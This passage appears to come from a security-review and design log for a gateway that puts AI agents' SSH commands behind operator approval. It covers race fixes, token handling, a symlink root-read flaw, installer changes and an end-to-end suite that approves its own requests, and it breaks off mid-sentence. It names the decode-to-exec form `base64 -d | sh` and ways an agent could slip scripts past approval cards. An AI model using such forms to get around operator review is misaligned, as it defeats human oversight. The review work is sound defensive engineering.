* `create_plan` selects the `proposed` rows, then runs
  `UPDATE ... SET status='superseded' WHERE id = ?`.
* `decide_plan` reads the status, checks `_DECIDABLE_FROM`, then runs
  `UPDATE ... WHERE id = ?`.
* Neither UPDATE repeats the status it read. A new proposal racing an
  operator's press can turn a just-approved plan into `superseded`, or
  turn a just-superseded plan into `approved` with `superseded_by` still
  set.
* Either way the operator approved the card they saw, so this is not a
  bypass. But the state can contradict itself.
* Fix: add `AND status = 'proposed'` to the supersede, and
  `AND status = <the status read>` to the decide. Refuse with `bad_state`
  when `rowcount != 1`.

**BM2 (should, BH3 left over): the check token is still in curl argv.**
* F22's `/api/request` call builds its JSON with `-d '...'`, including
  `"check_token"`. BH3 asked for this body to go on stdin after the rebase.
* It is not exploitable as it stands. A local reader would also need the
  root-only gateway token to send a claim, and the token is single-use and
  tied to one host and one command.
* Still, finish the sweep:
  `printf '%s' "$body" | curl ... -H @<(gateway_header) --data-binary @-`,
  as `log_window_reject` does.

The fleet-change table is accepted:
* an F22 check plan on a gateway that hasn't updated ends `not_run`
  (fails closed);
* a gateway without `flock` loses the lockbox fast path and falls back to
  JIT.

**BM1, BM2 and the one-line rule (2026-11-14).**

* **BM1 — conditional transitions.** `create_plan`'s supersede is
  `... SET status='superseded' WHERE id=? AND status='proposed'`; only a row
  the update actually changed is linked with `superseded_by`.
  `approve_plan` and `_decide` repeat the status they read
  (`AND status='proposed'` / `AND status=<read>`), roll back and raise
  `bad_state` when `rowcount != 1`. Tests:
  `test_bm1_a_new_proposal_does_not_touch_an_approved_plan` and
  `test_bm1_a_superseded_plan_cannot_be_decided` (deny → `bad_state`,
  approve → `not_proposed`, the new proposal untouched).
* **BM2 — the check-token body off argv.** The `/api/request` body, which
  carries the signed `check_token`, is built once and piped:
  `printf '%s' "$REQ_BODY" | curl ... -H @<(gateway_header) --data-binary @-`.
  `test_bm2_the_check_token_body_is_not_in_curl_argv` signs a request with a
  token, asserts it is in no recorded argv, and that the dashboard received
  it in the body. Installers regenerated (the gateway is embedded).
* **One line per command.** `docs/AGENT_MANUAL.md` gains the section under
  SSH: one line, refused with `multiline_command` on both paths, the
  preferred `;` form, and the base64 form with the plain warning that the
  card shows the base64. The `ssh_exec` tool description, the `ssh_exec`
  refusal (`message`) and `/api/request`'s 400 detail all name the rule.
  Tests: `test_a_multiline_command_is_refused_with_the_one_line_rule`,
  `test_the_ssh_exec_tool_description_names_the_rule`, and the BK2 API test
  now asserts `one line per command` in the detail. The manual's pipeline
  note no longer lists a newline as a JIT gate: it is refused before the
  pipeline.
* **Cache-busting.** `ab5572b` (app.js `ui22`, style.css `ui14`) is in the
  tree, so a browser that cached the previous `app.js` loads the plan-card
  fix.

`bash scripts/verify.sh`: `3028 passed, 27 skipped, 7 warnings in 637.44s
(0:10:37)` (the browser render skips here without playwright on PATH; run
it with `ESHU_PLAYWRIGHT_MODULES` to include it).

#### Security delta read (2026-11-14, `ac41a70..bd1ba91`): approved for deploy

* **BM2.** The `/api/request` body is built once and sent with
  `--data-binary @-`, and the header comes from `-H @<(gateway_header)`.
  The body has no newline, so `-d` and `--data-binary` send the same bytes.
  The three installer copies are identical.
* **BM1.**
  * The supersede repeats `status='proposed'` and links only the rows it
    changed.
  * `approve_plan` and `_decide` repeat the status they read, and roll back
    with `bad_state` when `rowcount != 1`.
  * `_end_child_plans` stays inside the same transaction.
* The cache-busting bump changes version strings only.

**BO1 (should, text only, before or right after deploy): don't recommend
`base64 -d | sh`.**
* The new `multiline_command` message in `ssh_exec`, the agent manual and
  the `ssh_exec` description offer `printf '%s' <base64> | base64 -d | sh`
  as the way to send a script.
* `cmd_codec` treats decode-to-exec as high risk. It forces JIT, scans the
  decoded text and shows a decoded preview on the card, but that preview is
  best-effort and bounded.
* So the text is also wrong: the card shows a decoded preview, not "the
  base64". Teaching agents the very shape the design flags trains them
  into the cards operators can least check.
* Keep `;` and `&&` as the only advice. For a real script, tell the agent
  to ask the operator for a window, or for a file deployed another way.
* Nothing runs without JIT either way, so this does not block the deploy.

**BO1 implemented (2026-11-14).** The refused-multiline text no longer offers
`printf '%s' <base64> | base64 -d | sh`. The agent manual's *One line per
command* section now says a real script is not to be smuggled through the
rule: ask the operator for a window or for a file deployed another way; it
also says why, because `base64 -d | sh` is classified as an encoded payload,
forces JIT and gets only a bounded decoded preview on the card. The `ssh_exec`
description, the `ssh_exec` refusal message and the manual's `ssh_exec` bullet
now recommend `;` or `&&` and point at a window. The API detail already named
only `;`. `test_a_multiline_command_is_refused_with_the_one_line_rule` asserts
`window` is named and `base64` is not.

`bash scripts/verify.sh`: `3028 passed, 27 skipped, 8 warnings in 638.44s
(0:10:38)`.

## Release 1.4 — gateway stack · branch `release/1.4-gw` · from master `800efe3` (X7)

One stack, rebased onto master `800efe3` (X7): the gateway-side changes plus
X8's dashboard half, so 1.4 is the whole X8 feature. The installer is Build
only (`dashboard/eshu-gateway-install.sh`); Edge and Fleet are X7's runtime
channels, and the pre-X7 static copies do not come back. With X7, the operator
rolls the installer out as **Seed Edge → dev gateways → Deploy to Fleet**.

### What changes on a gateway

| Area | 1.3 gateway | 1.4 gateway |
|---|---|---|
| authorized_keys write | root creates `.ssh` (0700), writes through `runuser`, then `chown -R`/`chmod 600` as root (BH2) | BQ2: no root `mkdir`/`chmod`/`chown` on `.ssh`/`authorized_keys`; the user-side script creates `.ssh` at 700 and the file at 600; a home not owned by the user refuses |
| token storage | `GATEWAY_TOKEN="..."` baked into `eshu-gateway.sh` and `eshu-poller.sh`; the poller `sed -i` rewrites both after re-register | BQ4: no baked token. Gateway, poller, logger and fleet runner read `/etc/eshu-token` at the point of use; the poller writes that one file (validated, `umask 077`, 0600, rename) |
| run-limit timing | duration from two `date +%s%N` (wall clock) | F19: `/proc/uptime` monotonic, `date` fallback |
| installer identity | not reported | X8: first 12 hex of the installer's sha256 in `/api/register`, written to `/etc/eshu-installer-hash` (0644 root:root), re-sent by the poller's re-register and every logger heartbeat |
| fleet runner | reads `/etc/eshu-token` (BJ2) | unchanged |
| installer files | `dashboard/eshu-gateway-install.sh` and the committed `static/` and `static/dev/` copies (pre-X7) | Build only (`dashboard/eshu-gateway-install.sh`, generated); Edge and Fleet are runtime channel files (`installer-channels/`) promoted by Seed Edge and Deploy to Fleet; the static copies are deleted (X7) |

### Compatibility, both ways

* **1.3 → 1.4 (update).** `/etc/eshu-token` already exists on every installed
  gateway; the installer reads it first, writes it back unchanged, and the new
  scripts read it at use. An old baked script is the fallback if the file was
  lost. Existing `.ssh` is user-owned (the old installer chowned it); the
  user-side write replaces only the dashboard line and needs no root chown.
* **1.4 → 1.3 (rollback).** The 1.3 installer loads the token from
  `/etc/eshu-token` (or the old script) and bakes it back into both scripts,
  restoring the old behaviour; the token file stays. `/etc/eshu-installer-hash`
  is left behind and ignored by a 1.3 dashboard.
* **1.4 gateway + 1.3 dashboard.** `installer_hash` is an extra JSON field on
  register/heartbeat; the 1.3 Pydantic payloads ignore unknown fields.
* **1.3 gateway + 1.4 dashboard.** No field: X8 reports `unknown` for that
  gateway (and the channel badge says so).
* **`curl | bash` (no file to hash).** Reports nothing, so the dashboard says
  `unknown`; a gateway that previously reported a hash keeps it until a
  file-based install (an empty value cannot mean "clear" for old gateways).
* **No token in argv, sed or log.** The poller's new writer never puts the
  token in a command line or a log message; headers still travel on stdin.
* **X7 channels.** A 1.4 gateway installs whatever the Fleet (or, for a dev
  gateway, Edge) channel holds. The installer hash it reports is compared
  with the channel files, so the Gateways table says Fleet, Edge, Build,
  outdated or unknown, and `/api/dev/status` counts all five. A dashboard
  deploy changes Build only; the fleet sees it after Deploy to Fleet.

`bash scripts/verify.sh`: `3043 passed, 26 skipped, 7 warnings in 699.64s
(0:11:39)` (the gateway stack: BH2/BQ2, BQ4, F19 and the X8 gateway side).

## Release 1.4 gateway · branch `release/1.4-gw` · gateway stack · security read

**Security review (2026-11-14, at `de39db6`): approved once BS1 is in.**

Checked on the stack:
* **BQ4.**
  * No script carries `GATEWAY_TOKEN="..."` any more, and the installer
    substitutes no token.
  * The gateway, poller and logger read `/etc/eshu-token` at the point of
    use (`head | tr` in a pipe, never argv), and the fleet runner already
    did.
  * `write_token_file` checks the format with `printf | grep`, writes
    through a `umask 077` temp, `chown root:root`, `chmod 600` and `mv`,
    and logs a refusal without the value.
  * The poller's four `sed -i` lines are gone.
  * A 1.3 install that updates finds the file first, then the old line.
    The uninstaller does the same.
* **BH2 and BQ2.** Root no longer runs `mkdir`, `chmod` or `chown` on
  `.ssh` or `authorized_keys`. The user-side script creates `.ssh` as 700
  and the file as 600, and a home not owned by the user refuses.
* **F19 and X8** are as approved on their branches.
* The three installer copies are identical.
  * This branch sits on master `14e19fc`, before X7. Once X7 merges,
    rebase and regenerate Build only, so no static copy comes back.

**BS1 (must): the approved-windows script still reads `$GATEWAY_TOKEN`.**
* `static/features/approved_windows.sh` sends its claim with
  `-H @<(printf 'X-Gateway-Token: %s\n' "${GATEWAY_TOKEN:-}")`.
* The script is sourced by the gateway, and since BQ4 the 1.4 gateway no
  longer sets `GATEWAY_TOKEN`. So every window claim from a 1.4 gateway
  sends an empty token, gets a 401, and the window is refused. That fails
  closed, but it breaks every approved window on 1.4.
* The script is served from the checkout and not gated by a channel
  (BP2), so one copy must work on both 1.3 and 1.4 gateways.
* Fix: take the token as
  `${GATEWAY_TOKEN:-$(head -n1 /etc/eshu-token 2>/dev/null | tr -d '[:space:]')}`
  inside the process substitution, or call `gateway_header` when it is
  defined.
* Test: source the feature script under the 1.4 gateway and under a 1.3
  fixture. Both send a non-empty token, and neither puts it in argv.
* Grep every other file a gateway sources or downloads for
  `GATEWAY_TOKEN`.

**BS2 (should, same premise as BH2): root still reads `authorized_keys`
before the user-side write.**
* On install, `grep -v ... "$AK_FILE"` runs as root.
* On update, `grep -v ' eshu-dashboard$'`, `ak_from` and the BJ1 every-line
  check also run as root.
* The symlink checks run first, but a swap after them makes root read the
  link's target, and that text is then written into the user's own
  `authorized_keys`. That is a root read of any file for someone who can
  run code as the gateway user.
* Fix: read the file once, as the user (`ak_as_user cat -- "$AK_FILE"`),
  into a variable. Run the BJ1 check, `ak_from` and the filter on that
  copy.

**BS1/BS2 round (implementer notes, 2026-11-14).**

* **BS1 (must).** `static/features/approved_windows.sh` now sends the claim
  header through `_window_token_header`: when the script is sourced by the
  gateway (1.3 or 1.4) it calls the gateway's `gateway_header`, which reads
  `/etc/eshu-token` on 1.4 and the baked value on 1.3; if it is sourced
  elsewhere it reads `/etc/eshu-token` itself, then the old variable. The
  token stays on stdin. Tests: the claim's header is non-empty on 1.4 and
  the token is not in argv; the helper resolves on both a 1.3 fixture
  (variable) and a 1.4 fixture (file).
* **BS2 (should).** Root no longer reads `authorized_keys`. `ak_read` runs
  `cat` as the user once; the BJ1 every-line check, `ak_from` and the
  filters parse that copy, and the readability check runs as the user. Test:
  the `runuser` stub's log shows the `cat`, and no root `grep`/`ak_from`
  reads the path.
* A grep of every file a gateway sources or downloads
  (`eshu-gateway.sh`, `eshu-poller.sh`, `eshu-logger.sh`,
  `static/fleet-runner.sh`, `static/features/*.sh`) finds no other use of a
  baked `GATEWAY_TOKEN`: the logger and fleet runner read the file, and the
  window script's variable use is only its last-resort fallback.
`bash scripts/verify.sh`: `3045 passed, 26 skipped, 7 warnings in 646.10s
(0:10:46)` (the BS1/BS2 tests).

**Rebase onto X7 and the X8 dashboard half (2026-11-14).** The branch is
rebased onto master `800efe3` (X7). `gen_installer.py` writes Build only, and
`test_x7_only_build_is_committed` passes; the pre-X7 `static/` copies stay
deleted. X8's dashboard commit (`installer_channel`, the five counts and the
badge) and BR1 (`on_build`, the warning colour, "reported by the gateway")
are on the branch as their own commits, with the X8 security note. So 1.4 is
the whole X8 feature, gateway and dashboard.

`bash scripts/verify.sh`: `3066 passed, 26 skipped, 8 warnings in 673.97s
(0:11:13)` (the rebased stack: BH2/BQ2, BQ4, F19, X8 gateway and dashboard,
BS1/BS2, X7 channels).

#### Security re-read (2026-11-15, at `315fd06`): approved for the Seed Edge → dev → Fleet rollout

* **BS1.** `_window_token_header` uses the gateway's `gateway_header`
  when it is defined. That reads the file on 1.4 and the baked value on
  1.3. Otherwise it falls back to `$GATEWAY_TOKEN`, then the file. The
  header comes from a process substitution, and there is a test for both
  fixtures.
* **BS2.** `authorized_keys` is read once, as the user (`ak_read`). The
  readability check runs as the user, and the BJ1 check, `ak_from` and
  both filters parse that copy, so root reads nothing the user could swap.
* **X7 rebase.** Only Build is committed (`test_x7_only_build_is_committed`).
  X8 is whole, BR1's `on_build` bucket is in, and the badge compares
  against the live channels.
* Nothing outside `db/gateways.py` and the display paths reads
  `installer_hash`.

**Nit:** on the install path, a failed `ak_read` (the user cannot read
their own file) yields empty text. The rewrite then drops any non-Eshu
keys the user had. Refuse instead when the file exists and `ak_read`
fails, as the update path does.

**BS2 nit implemented (2026-11-15).** Both paths now check
`ak_as_user test -r "$AK_FILE"` before they build the replacement; an
unreadable file is refused and left exactly as it was, so an install can no
longer drop the user's other keys. `ak_read` still returns empty on a
failure, but it is not reached when the check fails.
`test_bs2_an_unreadable_file_is_not_rewritten_on_install` makes the
`runuser` stub fail `test -r`, asserts the file is byte-identical and the
installer says REFUSED, and the source test asserts both paths carry the
check. Build regenerated; Build only.

`bash scripts/verify.sh`: `3067 passed, 26 skipped, 7 warnings in 672.26s
(0:11:12)`.

## Chunk E2E-1 — End-to-end smoke suite · slug `e2e-smoke` · test tooling · **security reviewer reads the design before code**

Status: **design**, 2026-11-15 · Branch: `feat/e2e-smoke` from
`master@e6b42d8` (the commit the request names; in this checkout that commit is
the 1.4 candidate merge, while the local `master` ref is older at `51a58f6`) ·
No product change: one script, its tests, and this note.

### Goal

One command proves that a real dashboard + real gateway still does the whole
loop: an agent opens a session, runs an allowlisted command with no card, asks
for JIT, gets approved or denied, waits for the ticket, runs a plan, probes a
host, uses a window token, reads HA and DNS, dispatches a fleet command, and
uses an F27 allowance. The suite plays **both** the agent and the operator,
because the point is to test the product without a human.

It is deliberately not a unit test and not a replacement for the existing
gateway sandbox. It runs against a running dashboard and a real enrolled
gateway; `tests/` continues to cover the same paths hermetically.

### Roles and hard limits

**Agent.** An MCP client using `Authorization: Bearer <token>` on `/mcp`
(streamable HTTP), token read from `ESHU_E2E_AGENT_TOKEN_FILE`. It calls only
MCP tools, plus `POST /api/window-requests` (the documented agent-only window
request, which has no MCP tool). It opens exactly one session with a goal that
starts `E2E:` and uses that session id on every tool that accepts one.

**Operator.** A dashboard session created with the password in
`ESHU_E2E_PASSWORD_FILE`. It reads only what it needs (policy, pending rows,
session detail) and may **approve or deny only**:

* SSH requests whose `session_id` is the suite's session and whose session goal
  starts `E2E:`;
* session plans with that same session id and goal;
* the one window request the suite itself created, identified by the numeric id
  returned to the agent (see the attribution finding below);
* pending **integration calls** carrying the suite's session id — it may
  **deny** those (the F27 non-matching case) and never approve them.

It may also do suite-owned setup/cleanup that is not a decision on anyone
else's work: exclude the suite's session, delete the window it created, revoke
the allowance it created, reject the conclusion draft it created, and dispatch
one fleet command whose target list is exactly `[test gateway]`. Every one of
those is audited by the product.

It never touches: any other pending row, any policy, gateway, agent, integration,
freeze, override, or setting; it never approves an integration call; it never
dispatches a fleet command to more than the test gateway.

The self-imposed filter is a promise, not an enforcement boundary: the dashboard
password can approve anything. A dedicated, scoped approver credential is the
first open question below.

### Configuration

All configuration is env + files outside the repo. No credentials, URLs, host
names or run data are written into the checkout.

| Variable | Required | Meaning |
|---|---|---|
| `ESHU_E2E_AGENT_TOKEN_FILE` | yes | File containing the agent's bearer token. Refuse if world/group-readable or empty; never print it. |
| `ESHU_E2E_PASSWORD_FILE` | yes | File containing the dashboard password. Same rules. |
| `ESHU_E2E_GATEWAY` | yes | The one test gateway: an IP in this dashboard (the agent policy matches only the IP, never a hostname — BF2). |
| `ESHU_E2E_BASE_URL` | no | Default `http://127.0.0.1:8000`. A non-loopback URL also needs `ESHU_E2E_ALLOW_REMOTE=1`; that flag is the human's "this is a throwaway stack" assertion. |
| `ESHU_E2E_GATEWAY_SSH_KEY` | for the window case | Path to a key for `eshu-gateway@<gateway>`; the window token is only accepted on the direct SSH path (finding 2). |
| `ESHU_E2E_CASE` | no | Run one case by id. |
| `ESHU_E2E_KEEP` | no | Skip cleanup, for debugging a failed stack. Cleanup is otherwise always attempted. |

The password and token are read once into memory, used only in headers, and
never included in the table, exception text, audit output, or the JSON result.
The window token is treated the same way: it is held in a local variable, passed
to the gateway command on stdin/argv per the documented window syntax, and
printed only as `<redacted>`.

### Preflight (refusals, before any command)

1. Both files exist, are non-empty, and are not group/world-readable (warn on
   this host but refuse on a remote base URL).
2. `POST /api/auth/login` succeeds; the session cookie and the
   `X-Eshu-CSRF: 1` header work for a harmless read.
3. `ESHU_E2E_GATEWAY` is a registered gateway, online, and reports the F12
   agent/ticket formats. The suite refuses to guess.
4. The agent calls `session_begin(goal="E2E:<run-id>: smoke")`. The operator
   maps the session to its agent (read `/api/agents`, then each agent's
   `/api/agents/{id}/activity` until the suite's session id appears; no new API)
   and reads that agent's policy.
5. **SSH-host guard.** The agent's `ssh_hosts_allow` must be exactly
   `[ESHU_E2E_GATEWAY]` — not `*`, not two entries, not a hostname, not empty.
   Anything else is exit 2 before a single SSH call. This is the guard the
   request asks for; it is checked from the dashboard's policy, not inferred
   from a trial command.
6. The same policy must be `ssh_mode=normal` and the exact allowlist must
   contain the allowlist case's command (`GET /api/policies`,
   `exact_whitelist`). With the default `approval` mode, `ssh_exec` always sends
   `ESHU_FORCE_JIT=1` and the gateway's allowlist cannot fire (finding 1), so the
   operator must have prepared the test agent this way. This is a setup
   refusal, not a skip.
7. The session goal starts with `E2E:`; if it does not, exit 2 (the approver
   would refuse every card and the run would be meaningless).

The preflight prints the target (base URL, gateway, agent name, session id) and
the fact that a throwaway stack is required. It never prints a credential.

### Cases

Each case records: id, what the suite did, the explicit expectation, the
observed value, and the request/plan/window/call ids in play. A case is PASS
only when every clause of its expectation holds. `SKIP` is only for a missing
optional environment (Pi-hole, HA, F27 code) and is shown with the reason.

| # | Case | Action | Expectation |
|---|---|---|---|
| C1 | `allowlist-no-card` | Agent `ssh_exec(host=G, command=ALLOWLISTED)` (policy `normal`, exact line present) | `status=ran`; output is the gateway's synthetic hostname marker; a request row exists with `status=auto-approved`; **zero pending** rows for the session. |
| C2 | `jit-approve` | `ssh_exec` a non-allowlisted command | `status=pending` + request id; operator approves only after checking session + goal; `check_request` reaches `consumed`; re-run returns `status=ran`; the row ends `consumed`. |
| C3 | `jit-deny` | `ssh_exec` a second non-allowlisted command; operator denies | `check_request` says `denied`; no exec result row; re-running the same bytes produces a **new** pending request (a denial is not cached). |
| C4 | `pending-consumed-ran` | `ssh_exec` a third command; observe `check_request` before and after approval | States go `pending` → `approved` (delivery) → `consumed` (claimable) → re-run `ran`; request id is stable; no duplicate row for the re-run. |
| C5 | `wait-true` | `ssh_exec(..., wait=True)` in a thread; operator approves while it waits | The call itself returns `ran` within 60 s (no re-run from the suite); exactly one request row; `wait` did not race the poller into a second JIT row. |
| C6 | `multiline-before-card` | `ssh_exec` with `"echo one\necho two"` | `status=refused`, `reason=multiline_command`; **no** request row and no card; the gateway was never contacted. |
| C7 | `plan-cover-then-exhaust` | `session_plan` one item `{host: G, command: PLAN_CMD, max_uses: 1}`; operator approves; run `PLAN_CMD` twice | First run `ran` with no card (plan claim; request row shows the plan approval); second run `pending` (a JIT card) because the item is exhausted; `check_plan` reports 0 remaining. |
| C8 | `plan-superseded` | Propose plan A, then plan B for the same session | `check_plan(A)` is `status=superseded` and names B as `superseded_by`; B is `proposed`; no request was created by either proposal. |
| C9 | `probe-service` | `diagnose_service({host: G, unit: "ssh"})` → operator approves plan → `probe_result(plan_id)` (poll while pending) | Digest has `probe=diagnose_service`, a non-empty `state`, and scrubbed output; a second `probe_result` is byte-identical and creates **no** new request ids. |
| C10 | `probe-disk` | `disk_pressure({host: G})` → approve → `probe_result` | Digest has `filesystems` (and `inodes`/`log_dirs` when present); repeat is cached and adds no request ids. |
| C11 | `window-token` | Agent `POST /api/window-requests` for `WINDOW_CMD`, `window_start=now-5`, `expires_at=now+600`, `max_executions=1`, label `E2E:<run-id>`; operator approves only that id; agent runs the command over the direct gateway path with `ESHU_WINDOW_TOKEN`; then runs it again | First run succeeds and the output is the command's; the window's `execution_count` becomes 1; **no pending card**; second run is rejected as exhausted (no JIT fallback, no second execution). |
| C12 | `dns-check` | `dns_check({name: DNS_NAME})` | `status=ran`, `digest.record` is a dict with the seeded name/IP; no request rows. **SKIP** when no Pi-hole integration is configured. |
| C13 | `ha-read` | Discover the namespaced HA read tool (`*_list_entities`) and call it with `limit=1` | A non-empty entity list / no error; no approval card. **SKIP** when HA is not configured. |
| C14 | `fleet-one-gateway` | Operator dispatches `hostname` to `[G]` via `POST /api/fleet/commands`; poll the command's results | Exactly one target and one result row for G with `status=success`; no other gateway has a result; the History row is `fleet-run`. |
| C15 | `allowance` | Operator creates an allowance for the agent (`light.turn_on`, entity `E2E_ENTITY`, rate 2, no window) → agent calls `call_service` for `E2E_ENTITY` → agent calls it for `E2E_OTHER_ENTITY` | First call succeeds with no pending card (`approval` starts `allowance:`); second call creates a pending integration call; operator **denies** it; no HA state change is claimed. **SKIP** when HA or the F27 endpoints are absent (F27 is still with security). |

Case constants are synthetic (`G` is the env gateway; commands are `hostname`,
`id -un`, `printf e2e-...`, `cat /etc/hostname`; entity ids are seeded by
E2E-2). No live hostnames, tokens or data are in the repo.

### Harness shape

`scripts/e2e/run.py` (Python, stdlib + the already-required `mcp` client):

```
config.py?        no — one file, small classes
JsonEndpoint      urllib.request + http.cookiejar; sync; returns (status, json)
Operator          login, get/post, claim check, approve_only(...), cleanup(...)
McpAgent          mcp.client.streamable_http + ClientSession; call(tool, **args)
Approver          a pure policy object: given a pending row, may_decide() -> reason
Case              id, title, run(agent, operator) -> Observation
Runner            preflight, cases, cleanup, table, exit code
```

The key split is `Approver` (pure, unit-tested) from `Operator` (HTTP). The
approver never decides by id alone: it looks the row up in
`GET /api/requests?session=<sid>` (or the plan/window list), compares the
session id, re-reads the session goal from
`GET /api/sessions/<sid>/detail` (cached), and refuses with a reason. A
background watcher thread handles `wait=true`: it watches for the suite's
pending SSH rows and approves one, while the agent call blocks. Every action is
logged as `PASS/FAIL/SKIP` with ids, never values.

`--list` prints the case table without a connection. `--json` emits the same
rows as JSON for CI. `--case` runs one. The default run is sequential (cases
share the session and the gateway) and stops creating new work after a FAIL,
then still cleans up.

### Unit tests (CI, no network)

`tests/test_e2e_smoke.py` imports the script (via `scripts/e2e/__init__.py` and
`sys.path`) and covers the logic against the in-process FastAPI
`TestClient`/`auth_client` fixtures and a fake agent:

* `Approver`: own session + `E2E:` goal → allow; another session → deny with
  reason; own session but another goal → deny; window id mismatch → deny;
  integration call → deny-only; no id-based bypass.
* `preflight`: token/password file mode/empty; non-loopback without
  `ESHU_E2E_ALLOW_REMOTE`; `ssh_hosts_allow` of `*`, two hosts, empty, hostname,
  wrong IP → `UnsafeConfig` (exit 2); exactly one IP + `normal` → pass.
* The operator's real path against `TestClient`: seed two pending requests (one
  own session, one other), run the approver, assert only the own row moved, the
  other stayed `pending`, and the audit/CSRF headers were used.
* Table/exit codes: pass/pass/skip → 0; any fail → 1; refusal → 2; a failing
  cleanup is reported but does not mask the case result.
* Cleanup is attempted on failure: fake agent records `session_conclude`, fake
  operator records reject/exclude/deny/delete/revoke in order, idempotent on a
  second call.
* Redaction: a fake token, window token, and password in exception text never
  appear in the rendered table or JSON; request ids do.
* Fake gateway: a `FakeMCP` returns scripted envelopes (`ran`, `pending`,
  `refused`) and records call order; the `wait=true` case is tested with a
  thread and a fake approval, no sockets.

No test starts uvicorn, opens a socket, or imports the real gateway. The existing
`temp_db` fixture supplies a throwaway SQLite database.

### Cleanup (always attempted, in this order)

1. Deny any still-pending request/plan/integration call that carries the suite's
   session (own rows only), so a failed case leaves no live card.
2. Agent `session_conclude(outcome=..., summary=...)` → the draft.
3. Operator rejects that draft (`POST /api/conclusions/{id}/reject`), found from
   the session detail.
4. `POST /api/requests/exclude {session_id: sid}` — F8 hides the SSH rows from
   statistics. **Gap:** integration calls have no `excluded` column, so the F27 /
   HA calls still count; see finding 5.
5. Delete the window (`DELETE /api/approved-windows/{id}`), if created.
6. **Revoke** the allowance (`POST /api/allowances/{id}/revoke`), if created.
   F27 has no hard-delete endpoint, and the audit trail should keep the row; this
   is the "delete" the request means, made explicit.
7. Verify no pending own rows remain and print a one-line cleanup result. Rows,
   audit events and the conclusion stay (rejected) for review; nothing is
   silently erased.

### Findings that need a decision before code

1. **Allowlist vs the default SSH mode.** `ssh_exec` sets `ESHU_FORCE_JIT=1`
   whenever the agent's `ssh_mode` is `approval` (the default), and the gateway
   skips every allowlist/window stage for a forced-JIT command. The
   `allowlist-no-card` case therefore only works with the test agent in
   `normal` mode. The preflight refuses otherwise; E2E-2 must provision that
   policy. This is real product behaviour, not a test hack.
2. **The window token cannot travel through `ssh_exec`.** The gateway refuses a
   signed agent prefix that also carries `ESHU_WINDOW_TOKEN` (S1), and the
   documented use is direct SSH as `eshu-gateway@host
   "ESHU_WINDOW_TOKEN=<token> <cmd>"`. The suite therefore needs a direct
   gateway channel for C11 (`ESHU_E2E_GATEWAY_SSH_KEY`). E2E-2 can install that
   key for the `eshu-gateway` user; a production dashboard does not need one. Do
   not add a signature-carrying window path just for the test.
3. **Window requests have no session/agent attribution.** `approved_windows` has
   `origin='ai'` and a label, but no `session_id`/agent column, and
   `POST /api/window-requests` only takes an agent or gateway token. The
   operator's "session_id is the suite's own" rule cannot be applied to a window
   request as written. The suite approves only the numeric id it created (and
   checks the label prefix); adding attribution is a product change and an open
   question.
4. **The dedicated agent must be identifiable.** Mapping session → agent via
   `/api/agents/{id}/activity` works with existing endpoints, but nothing
   prevents an operator pointing the suite at a real agent token. Requiring the
   agent name to start `e2e-` (or an explicit `ESHU_E2E_AGENT_NAME` that must
   match) would make a misconfiguration fail closed; that is a policy decision.
5. **F8 exclusion does not cover integration calls.** `requests.excluded` is
   the only exclusion flag, so the allowance/HA MCP calls remain in statistics
   and the F6 `allowance` bucket. On a throwaway dashboard this is harmless; on
   a shared staging dashboard it is real test pollution. Options: extend F8 to
   `integration_calls`, delete the rows (no endpoint today), or require a
   throwaway DB for E2E-1. The last is the smallest and matches E2E-2.

### Open questions for security (an automated approver is sensitive)

1. **Credential.** Should E2E-1 use the dashboard password file at all, or a
   dedicated "test approver" credential scoped to the suite's own session with
   approve/deny/exclude/delete-window/revoke-allowance rights and an audit actor
   of `e2e-approver`? The password can approve anything, so today the filter is
   only self-imposed. If yes, what is the minting/rotation/expiry model?
2. **Proving "own session".** Is reading the session goal via
   `/api/sessions/<sid>/detail` (operator session) acceptable, or should the
   approver be server-enforced (e.g. an `X-Eshu-E2E-Session` header that scopes
   the approve endpoints)? The latter is a product change; the former is the
   minimum.
3. **The window case.** Is a suite-owned SSH key for `eshu-gateway@` on the
   throwaway gateway acceptable, or should C11 be skipped until a safer
   transport is designed? The S1 refusal of a signed prefix with a window token
   must not be relaxed.
4. **Window attribution.** Add `session_id`/`requested_by_agent` to
   `approved_windows` so the approver can use the same rule for windows? That is
   an additive migration, but it changes the agent-facing request and the audit
   row; no code should do it without a decision.
5. **Allowlist mode.** Accept `ssh_mode=normal` on the dedicated test agent
   (needed for C1), with the host list exactly one IP? Or is a forced-JIT
   allowlist test impossible by design and C1 should be dropped?
6. **Fleet.** Is it acceptable for the operator role to dispatch one fleet
   command to the one test gateway (origin `operator`, audited), or should fleet
   be exercised by E2E-2's host-side script instead? It is the only way to prove
   the fleet path end to end from the suite.
7. **Remote target.** Non-loopback requires `ESHU_E2E_ALLOW_REMOTE=1` and a
   printed banner; is that enough to stop an accidental run against the live
   dashboard? Should the suite also require a dashboard marker (a meta key such
   as `e2e_stack=1`) set by E2E-2?
8. **Retention.** Cleanup rejects the conclusion and revokes the allowance but
   leaves requests, integration calls, audit rows and the window deletion audit.
   Is that the wanted evidence trail, or should a test-only purge exist?
9. **Rate limits / lockout.** The operator logs in once; repeated runs could hit
   the login rate limit. Is a dedicated credential with its own limit the
   answer, or should E2E-1 reuse one cookie for the whole run (it does)?
10. **Output.** The table prints request/plan/window ids and agent name. Are ids
    acceptable in CI logs, or should `--json` be the only machine-readable form
    and the table redact ids too?

### Implementer notes (to fill in when code starts)

Not written yet: this chunk waits for security's read of this design, as the
request requires. Planned commits, each gated on `bash scripts/verify.sh`:

1. `test(e2e): add the smoke-suite harness and unit tests` — `scripts/e2e/`,
   `tests/test_e2e_smoke.py`, no docs.
2. `docs(e2e): record the suite's first staging run` — only after E2E-2 exists;
   the case table and gate line.

### Reviewer notes

**Main reviewer, 2026-11-17: a good design. Changes before code, and these
answers go to security together with the open questions.**

The aim is that the operator stops being the tester. The main reviewer runs
the suite after each deploy, from a machine that can reach the dashboard.
DeepSeek writes the suite and its unit tests. Its sandbox cannot reach the
dashboard, so it never runs the suite itself.

* **CA1 (must): the target is the real dashboard and its dev gateway. E2E-2
  is parked.**
  * No Docker host exists, and the operator's dev gateways are already the
    test bed for every release.
  * The suite runs against the live dashboard and one dev gateway: a
    gateway on the Edge channel, never a Fleet-only one.
  * It uses the dedicated test agent, which already exists with SSH to
    exactly one host.
  * So `ESHU_E2E_ALLOW_REMOTE` is not "a throwaway stack". It means "the
    operator approved this target", and the suite also checks the next
    point.
* **CA2 (must): the approver is enforced by the server, not self-imposed.**
  * Do not use the dashboard password. Add a scoped **test approver token**,
    minted by the operator in Settings and shown once, with an expiry of at
    most 30 days, revocable, and audited as `e2e-approver`.
  * Every approve or deny it makes must pass a server check: the row's
